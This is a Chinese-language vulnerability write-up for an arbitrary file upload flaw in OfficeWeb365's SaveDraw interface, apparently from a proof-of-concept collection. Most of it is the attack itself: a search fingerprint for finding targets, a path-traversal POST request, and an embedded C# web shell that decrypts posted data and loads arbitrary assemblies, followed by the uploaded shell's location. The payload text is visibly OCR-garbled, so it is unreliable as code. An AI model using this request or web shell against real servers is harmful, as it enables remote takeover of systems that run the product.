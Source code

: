 # OfficeWeb365 SaveDraw 任意文件上传漏洞

# OfficeWeb365 SaveDraw 任意文件上传漏洞

## 漏洞描述

OfficeWeb365 SaveDraw 接口存在任意文件上传漏洞，攻击者通过漏洞可以在服务器中上传任意文件获取服务器权限

## 漏洞影响

OfficeWeb365

## 网络测绘

```
"OfficeWeb365"
```

## 漏洞复现

产品页面

![image-20230828143123592](images/image-20230828143123592.png)

验证POC

```
POST /PW/SaveDraw?path=../../Content/img&idx=6.ashx HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.434.18 Safari/537.36
Content-Length: 990
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Connection: close

data:image/png;base64,01s34567890123456789y12345678901234567m91<%@ WebHandler Language="C#" Class="Handler" %>using System;using System.I0;using System.Reflection;using System.Text;using System.Web;using System.WebSessionState;using&System.Security.Cryptography;public class Handler : IHttpHandler,IRequiresSessionState{public void=&ProcessRequest(HttpContext context){try{string key="900bc885d7553375";byteDk=&Encoding.Default.GetBytes(key);context.Session.AddC"sky", key);StreamReader sr=new&StreamReader(contextRequest.InputStream);string line=sr.ReadLine;if(!string.IsNullOrEmpty(line)){byteDc=&Convert.FromBase64String(line);Assembly assembly=&typeof(Environment).Assembly;RijndaelManaged rm=(RijndaelManaged)&assembly.CreateInstance("System.Secur"+"ityCrypto"+"graphy.Rijnda"+"elm anaged");byte[ data=rm.CreateDecryptorCk,k)TransformFinalBlock(c,0, c.Length);Assembly.Load(data)CreateInstance("U").Equals(context);sr.clo se();}}catch {}}public bool IsReusable{get{return false;}}}}---
```

![image-20230828143155818](images/image-20230828143155818.png)

上传地址

```
/Content/img/UserDraw/drawPW6.ashx
```

